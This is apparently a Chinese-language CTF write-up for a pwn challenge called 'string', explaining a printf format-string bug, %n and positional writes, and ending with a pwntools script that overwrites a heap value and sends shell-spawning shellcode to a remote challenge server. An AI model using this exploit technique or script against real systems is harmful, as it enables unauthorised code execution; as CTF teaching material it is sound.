 ## **Topic** 
string

##**Steps**
格式化字符串漏洞利用

首先运行string.bin,可以看到运行结果是一个mud game：

![](res/pwn1_0.png)

大概玩了一下，发现这个游戏似乎只能死亡？每次到最后，龙都会直接把你打爆，然后gg。于是我们用IDA看一下大致逻辑:

```C
  if ( strlen(&s) <= 0xC )
  {
    puts("Creating a new player.");
    atHotel();
    findHole();
    meetDragon((_DWORD *)a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
```

其中，`atHotel`就是故意用来坑人的（？），里面并没有什么有价值的漏洞，然而在`findHole`这个函数里面我们能看到:

```C
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    __isoc99_scanf("%ld", &v2);
    puts("And, you wish is:");
    __isoc99_scanf("%s", &format);
    puts("Your wish is");
    printf(&format, &format);
    puts("I hear it, I hear it....");
  }
```

这个printf函数被IDA翻译除了点问题，如果看汇编的话会发现，此处就是printf(&format),这就是一个典型的printf格式化字符串漏洞！然后我们顺着看之后的逻辑，在`meetDragon`函数里面，有以下内容:

```C
  result = (unsigned int)a1[1];
  if ( *a1 == (_DWORD)result )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v2 = (__int64 (__fastcall *)(_QWORD, void *))mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    buf = v2;
    v4 = v2;
    read(0, v2, 0x100uLL);
    result = buf(0LL, v4);
  }
```

这里会发现，程序用mmap申请了一段**可读可写可执行的**空间，并且读入我们输入的内容，最后跳转上去执行。这个就是**典型的插入shellcode的位置**。（其实根据游戏剧情这里也提到了，巫师说【"I will help you! USE YOU SPELL"】，相当于是一种暗示。）shellcode就是一段简单的字节码，这里的shellcode能够完成提权攻击，可以利用pwntools或者上网查找都可以。

为了触发这个跳转，要实现a1[1] = result。这样看起来有点模糊，回溯这个a1的来源，我们能够在main函数看到:

```C
  v4 = malloc(8uLL);
  v5 = (__int64)v4;
  *v4 = 0x44;
  v4[1] = 0x55;
  printf("secret[0] is %x\n", v5, argv);
  printf("secret[1] is %x\n", v5 + 4);
  puts("do not tell anyone ");
  beginStory(v5);
```

这里的v4是一个堆上的地址，v4相当于是一个数组；然后这个游戏在一开始的时候就把堆的地址输出来了，并且让v4[0]和v4[1]的值分别赋予了两个不同的值。那么也就是说，只要这两个值相等，那么之前在`meetDragon`函数位置上的a1和result就能够相等，然后触发巫师过来帮忙让你输入shellcode的情节。

现在我们能够找到的漏洞就是这个printf格式化字符串漏洞。这个漏洞的成因就是【因为直接将printf的第一个参数让其可以输出】。举一个例子来说:

```
printf("%d",a);
```

这个表达式能够将a中的数据当作整数输出，【不管a是不是真的是int类型的变量】。那么，如果这个`"%d"`字符串是由我们来控制输入的话:

```
char input[20];
scanf("%s",input); // 此时输入%x,%x
printf(input,a);
```

那么显然，这里只有一个参数a，第二个%x就会【强行从printf中的第三个参数的位置上的数据读出并且进行显示】（为什么是第三个参数？这里需要知道printf函数调用的过程，具体就不细讲了，自己了解即可）。我们结合栈的图来看:

![](res/pwn1_1.png)

如上图，相当于是如下的情况:

```C
printf("%d %d %d",a,b,c);
```

也就是说，printf自己会维护一个栈指针，指向下一个栈中需要被输出的值的位置。然后，如果说，我们此时不传入c的话，栈指针是不知道的，它依然会移动到当前位置上，并且将这个位置上的值进行输出。
然后，对于格式化字符串，除了大家常见的%s,%x,%d等，有一个叫做**%n**的格式，它的功能是【将之前输出的字符串长度的总长写到指定的参数位置上】。举个例子来说:

```C
printf("123456%n", &a);
printf("a = %d",a);
```

那么此时，a的值就为6。为什么要传入a的地址？这个是因为%n的作用原理和%s类似，都是将当前的变量作为**指针**，写入指针所指向的地址。
知道了这个%n的功能，还知道了格式化字符串漏洞，那么我们这里就要想着，如何让a1[1] = result(a1[0])了。我们知道，这两个值的**【地址】**已经被泄露出来了。那么，如果我们**【把这个地址放到栈中的某个位置，然后利用%n，就能够往指定位置上写入指定的数字】**。大致格式图如下:

![](res/pwn1_2.png)

那么我们观察，有没有机会存入地址:

```C
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    __isoc99_scanf("%ld", &v2);
    puts("And, you wish is:");
    __isoc99_scanf("%s", &format);
    puts("Your wish is");
```

回想上面这段代码，能够发现，v2处居然有输入整数的过程，而且很巧，这个整数【也放在栈上】，那么我们不久可以通过往这个整数变量中【写入我们要存放的a[1]的地址】，然后构造合理的输入字符串，完成往【a[1]中存放指定数值】的操作！

这里还要提到一个小技巧，比如说，我们此时printf如下:

```C
printf("v2 = %d, v1 = %d", v1, v2);
```

仔细看可以发现，上面的v2和v1写反了，但是如果我们不想改动这两个变脸的位置的话，我们可以使用POSIX标准引入的新的格式化字符串下的`$`符号，用法如下：

```
printf("%2$d %2$#x; %1$d %1$#x",16,17)
// 输出为  17 0x11; 16 0x10
```

也就是说，%n$x表示的是【把第n个参数输出来】。因为我们的整数本身也不一定是正好放在format参数的后面，而且这里的程序是64bit的，64bit传入参数的时候，之前的参数的会放在寄存器中，多余的参数才会放到栈上，传参的顺序为【rdi,rsi,rdx,rcx,r8,r9，栈】。
我们使用gdb调试程序，让其运行到可疑的位置上：

![](res/pwn1_3.png)

我输入的数字为123456，也就是0x1e24。这里能够看到，我们输入的数字被放到了传入参数的第二个位置（为什么？这个是运行时决定的，不具有通用性分析）。那么，此时参数的位置就相当于在【当前传入参数的第7个参数的位置上】，于是我们就能够构造攻击字符串:

```
0000000...00000000%7$n
|---  85 个 0 ---|
```

但是这个000也太多了。。。于是我们想到可以利用格式化字符串的**填充写法**，也就是说:

```
%08x
```

表示的是【输入长度为8的十六进制数，不足8位的时候，高位用0不足】
那么我们最终的攻击字符串就能够写成;

```
0x55*'a' + "%7$hhn"
```

其中%hhn表示的是，要将【输入长度为char类型的转换成int长度】，简单来说就是填充的多一点。。。期间我们还要保证输入的地址为一开始程序泄露出来的堆地址，也就是

![](res/pwn1_4.png)

这两个地址中的一个。

当然为了保证交互，这里还是得通过使用python的pwntools来完成:

```python
#   -*- coding:utf-8 -*-

from pwn import *

DEBUG = True
if DEBUG:
    ph = process("./string.bin")
    context.log_level = "debug"
    context.terminal= ['tmux','splitw','-h']
        gdb.attach(ph)
else:
    ph = remote("211.65.102.6",20003)
exp = 0x55*'a' + "%7$hhn"
def getAddr():
    ph.recvuntil("secret[0] is")
    sec_addr = int(ph.recvuntil("\n").strip(), 16)
    return sec_addr

def pwn(addr):
    ph.recvuntil("What should your character's name be:")
    ph.sendline("link")
    ph.recvuntil("?east or up?:")
    ph.sendline("east")
    ph.recvuntil("or leave(0)?:")
    ph.sendline("1")
    ph.recvuntil("an address'")
    ph.sendline(str(addr))
    ph.recvuntil("And, you wish is:")
    ph.sendline(exp)
    ph.recvuntil("I will help you! USE YOU SPELL")
    ph.sendline(asm(shellcraft.amd64.linux.sh(), arch='amd64'))


if __name__ == '__main__':
    addr = getAddr()
    pwn(addr)
    ph.interactive()

```


